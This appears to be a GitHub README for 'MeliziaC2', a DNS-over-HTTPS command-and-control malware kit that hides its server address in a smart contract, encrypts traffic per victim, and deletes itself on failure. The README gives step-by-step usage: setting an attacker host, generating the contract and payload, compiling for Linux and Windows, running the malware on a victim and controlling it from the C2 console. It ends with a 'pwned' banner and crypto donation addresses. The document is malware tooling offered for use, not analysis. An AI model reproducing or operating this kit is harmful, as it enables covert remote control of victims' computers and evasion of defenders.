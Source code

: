 # MeliziaC2
DNS over HTTPS targeted malware (only runs once)

<p align="center">
  <img src="./logo.jpg" width="500">
</p>

## Key Features
- [x] Auto-delete malware on failure
- [x] Fully encrypted (per victim RSA key) DoH (DNS-over-HTTPS) communication
- [x] Malware only runs once!   

## Diagram

![diagram](./melizia_diagram.svg)


## Usage Steps


###### 0 - Edit contract_generator.py file
```
modify C2ServerIP variable:
C2ServerIP = "attacker.domain.com"
```

###### 1 - Generate and deploy smart contract (contains the AES encrypted DNS address of server)
```
attacker_machine@ThreatActor:$ python3 contract_generator.py 
[...]
Calculating keccak from :: ImTWdbREqskoawYAXzEB()

Contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Encrypted C2 address :: weTq1JD5gpk4Guv/9wTXXhcXgxI+0V+aQPKly7F0rdM=
Contract key :: 9o2goajTJ3ivI+DLB+rRzw==
Generated contract variable name :: ImTWdbREqskoawYAXzEB
Contract keccak :: 7941b5a6

gen_payload primaryServerIP:port 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
```

###### 2 - Generate payload using the returned parameters
```
attacker_stager_server@Stager:$ python3 server_rust.py 
Server running!
> gen_payload stagerServerPublicIP:stagerServerExposedPort(1337 by default) 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
Smart contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Smart contract Keccak :: 7941b5a6
Generated payload with hash :: b'8822a96ba043c606b16ede401cb4a22f2a57c63214311c4ed21f5c705a5d7687'

> 
```

###### 3 - Compile payload
```
attacker_stager_server@Stager:~/Desktop/babagola/migrate$ cargo build --release --target=x86_64-unknown-linux-musl
[...]
warning: `migrate` (bin "migrate") generated 147 warnings
    Finished release [optimized] target(s) in 0.18s
warning: the following packages contain code that will be rejected by a future version of Rust: rustc-serialize v0.3.24
note: to see what the problems were, use the option `--future-incompat-report`, or run `cargo report future-incompatibilities --id 1051`
```

###### 4 - run (Victim)
```
user@Ubuntu:$ ./malware 
[debug information]
```

##### 5 - control!
```
threatactor@C2Server:~/C2_Melizia$ sudo python3.10 c2.py 
sudo: unable to resolve host TestingC2: Resource temporarily unavailable
 Melizia C2 
Pwned by trololo gang! kek kek keke kekw
- "SYSADMIN VOCÊ ESTÁ SENDO HIPNOTIZADO, ESQUEÇA QUE ESSA OWNADA EXISTIU"
        |) /\ |\ | /`  |
        |) \/ | \| \]  .
          __________         |) /\ |\ | /`  |
         /________ /|        |) \/ | \| \]  .
        |   X|I   | |
        |    |    | | |) /\ |\ | /`  |
        |IX  * III| | |) \/ | \| \]  .
        |    |    | |
        |____VI___| |         |) /\ |\ | /`  |
        |    /    | |         |) \/ | \| \]  .
        |   /     | |
        |  /      | |     |) /\ |\ | /`  |
        |( )      | |     |) \/ | \| \]  .
        |_________|/
                     |) /\ |\ | /`  |
                     |) \/ | \| \]  .


Ctrl+C is disabled! please use "exit" to exit from Melizia
Use "help" to see the available commands!
[!] DNS Server started

(Melizia)> A spaceship arrived!
"92994c589f860bab7af687fc3525d3de445812f52e951f5cf2d04432751a1b8c" Called home!
```


## Compilation
###### Static compile
```
rustup target add x86_64-unknown-linux-musl
cargo build --release --target=x86_64-unknown-linux-musl

or (windows)

rustup target add x86_64-pc-windows-gnu
cargo build --release --target=x86_64-pc-windows-gnu
```

# Donate!
```
Pix:
997f8e1c-5ea4-42d8-9a52-2d1a852e4274

https://nubank.com.br/pagar/sqtrd/oGVMf6g6Pa

Cripto
Direct:
BTC
1ACguGNLXik3sKYShtEuUX4ahYuM3yPFQq

MATIC
0x3b1699bbd7f67db0987ebef0f5f7b00c12fefddf

ETH
0x3b1699bbd7f67db0987ebef0f5f7b00c12fefddf

Metamask:
0x30f2F62FD0700af80Deb70D520f07deE9D411a33

XMR
83dsNXwoxmX54CNrv6WrB1dJeiyttgBZM2JFvUh43MMrDghfZmfcsB7cGywVL1X69YQBcMsxm8mbdJhEdzCjgdaETKawxFK

SOL
2DsFcwmKtqCCS2WhVM2FCt4LJa18ugk5o26sarbhcqnR

All the currencies are supported!
https://nowpayments.io/donation/demoni3864
```

